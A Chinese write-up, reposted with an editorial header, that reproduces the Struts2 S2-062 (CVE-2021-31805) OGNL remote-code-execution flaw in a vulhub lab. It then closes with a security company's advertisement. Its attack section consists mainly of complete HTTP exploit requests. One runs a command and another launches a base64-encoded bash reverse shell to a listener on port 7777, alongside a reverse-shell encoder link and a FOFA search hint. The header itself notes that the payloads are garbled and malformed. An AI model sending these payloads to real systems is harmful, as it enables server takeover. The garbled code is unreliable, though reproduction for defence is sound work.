



# 漏洞复现 CVE-2021-31805 Struts2 S2-062远程代码执行漏洞

<!-- vulwiki-editorial:start -->
## 校订与适用边界

- 适用前提：BeanMap map语法及Tomcat/FreeMarker类；实际启用s2-061旧靶场，未证明新补丁阶段
- 证据范围：使用062新BeanMap语法，但在061旧环境测试，缺修复后版本/危险name标签验证。

### 尚未解决的证据缺口

以下限制仍适用于后文历史材料；相关版本、结果或修复结论不能据此视为已验证：

- 新编号复现应补2.5.26–2.5.29验证，旧环境成功不足证实062绕过
- HTTP与命令全压成反引号单行，Content-Disposition缺字段名、终止边界用长横线，无法原样复现
- base64文本夹入异常串dwajdiowj，不能确认与声称回连一致；未解码执行
- FOFA仅Struts2词无字段语法，空代码块/公司广告多
- 缺修复章节及2.5.30、安全标签改写建议

### 操作风险与资料使用

- 含反向连接或交互式命令执行方法：会产生出站连接和子进程；目标、监听端与网络须在授权隔离范围内，结束后关闭会话并核对遗留进程。

本页为文本校订，未执行代码、PoC 或目标请求；原图仅保留引用，未据此确认复现成功。
<!-- vulwiki-editorial:end -->

## 技术正文与历史材料

<meta name="referrer" content="no-referrer"/>

> 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/k5d-dO4Nf1e5zmqpsuPKoQ)

**0x01 漏洞描述**

Struts是Apache软件基金会（ASF）赞助的一个开源项目。它最初是Jakarta项目中的一个子项目，并在2004年3月成为ASF的顶级项目。它通过采用JavaServlet/JSP技术，实现了基于JavaEEWeb应用的Model-View-Controller（MVC）设计模式的应用框架，是MVC经典设计模式中的一个经典产品。**远程代码执行S2-062（CVE-2021-31805）**由于ApacheStruts2对S2-061（CVE-2020-17530）的修复不够完整,该漏洞是由于Struts2会对某些标签属性(比如id)的属性值进行二次表达式解析，因此当这些标签属性中使用了%{x}且其中x的值用户可控时，用户再传入一个%{payload}即可造成OGNL表达式执行。在CVE-2021-31805漏洞中，仍然存在部分标签属性会造成攻击者恶意构造的OGNL表达式执行，导致远程代码执行。

**0x02 漏洞复现**

**漏洞影响:** Struts 2.0.0 - Struts 2.5.29

```


**FOFA:**Struts2

  


```

1.开启S2-061 vulhub环境

```
`https://github.com/vulhub/vulhub/tree/master/struts2/s2-061``docker-compose up -d`
```



  

2.构造payload，执行成功（**执行命令：**exec({'id'})，**Content-Type改为：**multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF）

```
`POST /index.action HTTP/1.1``Host: x.x.x.x:8080``User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0``Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8``Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2``Accept-Encoding: gzip, deflate``DNT: 1``Connection: close``Cookie: JSESSIONID=node01c863u8lzu8eyn099a51bjyie0.node0``Upgrade-Insecure-Requests: 1``Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF``Content-Length: 1191``------WebKitFormBoundaryl7d1B1aGsV2wcZwF``Content-Disposition: form-data;` `%{``(#request.map=#@org.apache.commons.collections.BeanMap@{}).toString().substring(0,0) +``(#request.map.setBean(#request.get('struts.valueStack')) == true).toString().substring(0,0) +``(#request.map2=#@org.apache.commons.collections.BeanMap@{}).toString().substring(0,0) +``(#request.map2.setBean(#request.get('map').get('context')) == true).toString().substring(0,0) +``(#request.map3=#@org.apache.commons.collections.BeanMap@{}).toString().substring(0,0) +``(#request.map3.setBean(#request.get('map2').get('memberAccess')) == true).toString().substring(0,0) +``(#request.get('map3').put('excludedPackageNames',#@org.apache.commons.collections.BeanMap@{}.keySet()) == true).toString().substring(0,0) +``(#request.get('map3').put('excludedClasses',#@org.apache.commons.collections.BeanMap@{}.keySet()) == true).toString().substring(0,0) +``(#application.get('org.apache.tomcat.InstanceManager').newInstance('freemarker.template.utility.Execute').exec({'id'}))``}``------WebKitFormBoundaryl7d1B1aGsV2wcZwF—`
```


  

3.反弹shell，构造base64解码反弹shell脚本，可以用如下网站

```
https://ir0ny.top/pentest/reverse-encoder-shell.html
```



  

4.nc监听7777端口，并反弹shell，得到一个shell

```
`POST /index.action HTTP/1.1``Host: x.x.x.x:8080``User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:99.0) Gecko/20100101 Firefox/99.0``Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8``Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2``Accept-Encoding: gzip, deflate``DNT: 1``Connection: close``Cookie: JSESSIONID=node01c863u8lzu8eyn099a51bjyie0.node0``Upgrade-Insecure-Requests: 1``Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryl7d1B1aGsV2wcZwF``Content-Length: 1191``------WebKitFormBoundaryl7d1B1aGsV2wcZwF``Content-Disposition: form-data;` `%{``(#request.map=#@org.apache.commons.collections.BeanMap@{}).toString().substring(0,0) +``(#request.map.setBean(#request.get('struts.valueStack')) == true).toString().substring(0,0) +``(#request.map2=#@org.apache.commons.collections.BeanMap@{}).toString().substring(0,0) +``(#request.map2.setBean(#request.get('map').get('context')) == true).toString().substring(0,0) +``(#request.map3=#@org.apache.commons.collections.BeanMap@{}).toString().substring(0,0) +``(#request.map3.setBean(#request.get('map2').get('memberAccess')) == true).toString().substring(0,0) +``(#request.get('map3').put('excludedPackageNames',#@org.apache.commons.collections.BeanMap@{}.keySet()) == true).toString().substring(0,0) +``(#request.get('map3').put('excludedClasses',#@org.apache.commons.collections.BeanMap@{}.keySet()) == true).toString().substring(0,0) +``(#application.get('org.apache.tomcat.InstanceManager').newInstance('freemarker.template.utility.Execute').exec({'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4dwajdiowjMxLjEwMS83Nzc3IDA+JjE=}|{base64,-d}|{bash,-i}'}))``}``------WebKitFormBoundaryl7d1B1aGsV2wcZwF—`
```



**(注：****要在正规授权情况下测试网站：日站****不规范，亲人泪两行)**  

  

**0x03 ****公司简介******

江西渝融云安全科技有限公司，2017年发展至今，已成为了一家集云安全、物联网安全、数据安全、等保建设、风险评估、信息技术应用创新及网络安全人才培训为一体的本地化高科技公司，是江西省信息安全产业链企业和江西省政府部门重点行业网络安全事件应急响应队伍成员。  
    公司现已获得信息安全集成三级、信息系统安全运维三级、风险评估三级等多项资质认证，拥有软件著作权十八项；荣获2020年全国工控安全深度行安全攻防对抗赛三等奖；庆祝建党100周年活动信息安全应急保障优秀案例等荣誉......

**编制：sm**

**审核：fjh**

**审核：Dog**

---

> 来源：MrWQ/vulnerability-paper（https://github.com/MrWQ/vulnerability-paper）
